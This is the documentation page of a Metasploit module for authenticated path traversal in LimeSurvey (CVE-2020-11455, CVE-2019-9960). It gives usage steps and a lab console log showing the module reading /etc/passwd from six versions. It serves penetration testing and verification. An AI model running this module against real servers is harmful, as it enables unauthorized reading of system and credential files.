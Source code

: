 ## Vulnerable Application

This module exploits an authenticated path traversal vulnerability found in LimeSurvey versions between 4.0 and 4.1.11 with
CVE-2020-11455 or <= 3.15.9 with CVE-2019-9960, inclusive.

In CVE-2020-11455 the `getZipFile` function within the `filemanager` functionality allows for arbitrary file download. The file retrieved
may be deleted after viewing.

In CVE-2019-9960 the `szip` function within the `downloadZip` functionality allows for arbitrary file download.

This module has been verified against the following versions:

  * 4.1.11-200316
  * 3.15.0-181008
  * 3.9.0-180604
  * 3.6.0-180328
  * 3.0.0-171222
  * 2.70.0-170921

### Install

This application is straight forward to install.  An excellent writeup is available on
[howtoforge.com](https://www.howtoforge.com/tutorial/how-to-install-limesurvey-on-ubuntu-1804/)

Versions can be downloaded from [github](https://github.com/LimeSurvey/LimeSurvey/releases).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/limesurvey_zip_traversals```
  4. Do: ```set file [file]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```
  7. If the file is readable, you should retrieve a file from the application

## Options

### FILE

The file to attempt to retrieve

## Scenarios

### LimeSurvey 4.1.11, 3.15.0, 3.9.0, 3.6.0, 3.0.0, and 2.70.0 on Ubuntu 18.04

```
[*] Processing lime41.rb for ERB directives.
resource (lime41.rb)> use auxiliary/scanner/http/limesurvey_zip_traversals
resource (lime41.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (lime41.rb)> set verbose true
verbose => true
resource (lime41.rb)> set targeturi /LimeSurvey-4.1.11-200316/
targeturi => /LimeSurvey-4.1.11-200316/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SzF-eUl4RW1lU0h-aFZxWmNwbGZOREJrYUduZzI1WTaGH7eqrOmgcse5liKfPNZ8qqKkvenm5Fu6oxTSyVWDrQ==
[+] Login Successful
[*] Version Detected: 4.1.11
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-3.15.0-181008/
targeturi => /LimeSurvey-3.15.0-181008/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SDNyc21VYXJONmIwbjFkOENmUzEyS1NMX3lPQ0VYRTJyfE0iGABAxOsuZhxGdZd59W3dNCVx2D6JABRxmu6dgw==
[+] Login Successful
[*] Version Detected: 3.15.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__530709.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-3.9.0-180604/
targeturi => /LimeSurvey-3.9.0-180604/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => QldPa0lZM0o0cUV-STU4NWVoYVlDdHNtYmhmVVl6NW39a1wvfep0Ccsuz_gx9V1AnMjtADnprALM7qwvxUz3Wg==
[+] Login Successful
[*] Version Detected: 3.9.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__407491.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-3.6.0-180328/
targeturi => /LimeSurvey-3.6.0-180328/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SHJzSk81ak5rdWdONTJWV0VLQTlHcjRKeGNIaFlYREqfcU-BuMlPRimIHJipKDsrCF3i7j29J4bNFwxsYGD42A==
[+] Login Successful
[*] Version Detected: 3.6.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__228237.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-3.0.0-171222/
targeturi => /LimeSurvey-3.0.0-171222/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => T1VkbDlhYU9IbkZHel9wd0JoVVl5RTUxQ2h2Mk9yN0-AXAtaTDCOMX8gWru7EmBHPBumgY0FG0vAFLwCwyeeuA==
[+] Login Successful
[*] Version Detected: 3.0.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__611969.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-2.70.0-170921/
targeturi => /LimeSurvey-2.70.0-170921/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => elhvTzJaWGlJWU10WnBFajlTYmN5a1VHY1M0bDNJd1C2okYXL__0in7KMlmwY6_Iuk8sI7H7s2zQPZ5NiWW_Xg==
[+] Login Successful
[*] Version Detected: 2.70.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__149900.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> md5sum ~/.msf4/loot/*
[*] exec: md5sum ~/.msf4/loot/*

3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__530709.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__228237.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__407491.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__149900.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__611969.txt
msf auxiliary(scanner/http/limesurvey_zip_traversals) > cat /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
[*] exec: cat /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...snip...
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
